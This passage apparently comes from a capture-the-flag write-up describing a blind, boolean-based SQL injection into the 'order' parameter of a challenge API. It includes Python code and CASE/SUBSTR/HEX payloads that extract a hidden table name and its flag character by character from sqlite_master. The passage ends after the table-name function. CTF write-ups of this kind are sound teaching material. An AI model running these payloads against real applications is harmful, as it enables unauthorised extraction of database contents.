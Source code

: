 ```python
      check = '"id":4' in r.text[0:10]
      if check == True:
        tableName += dictie[hexie]
        lookForCharOfIndex += 1
        print (tableName)

  return tableName

tableName = findTableName()
```

This will spit out the name of the flag table for us, which in this case was

```sh
flag_5ba432deb9
```

Next, we repeat the same process for the flag inside of that table, but we slightly modify our statement, to look for characters inside the flag entry, instead of the table name. This one actually ends up being easier to set up.

```js
data = {
    "order":f"""(CASE 
    (SELECT HEX(SUBSTR(flag, {lookForCharOfIndex}, 1)) from
    {foundTbaleName} ) WHEN '{hexie}' THEN name ELSE count END) DESC--"""
}
```

And so, we can build and add our `getFlag` function into our script. The whole thing looks like so:

```python
#!/usr/bin/env python3

import requests
import string

url = 'http://138.68.179.198:32342/api/list'

listOfPrintable = list(string.printable)
listOfHexies = []
for char in listOfPrintable:
  listOfHexies.append(format(ord(char), 'x').upper())
dictie = dict(zip(listOfHexies, listOfPrintable))

def findTableName():
  tableNameLen = 15
  tableName = 'flag_'
  lookForCharOfIndex = 6

  while lookForCharOfIndex <= tableNameLen:

    for hexie in listOfHexies:
      data = {"order":f"(CASE (SELECT HEX(SUBSTR(tbl_name, {lookForCharOfIndex}, 1)) from (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name like 'flag%') ) WHEN '{hexie}' THEN name ELSE count END) DESC--"}

      r = requests.post(url, data=data)

      check = '"id":4' in r.text[0:10]
      if check == True:
        tableName += dictie[hexie]
        lookForCharOfIndex += 1
        print (tableName)

  return tableName

```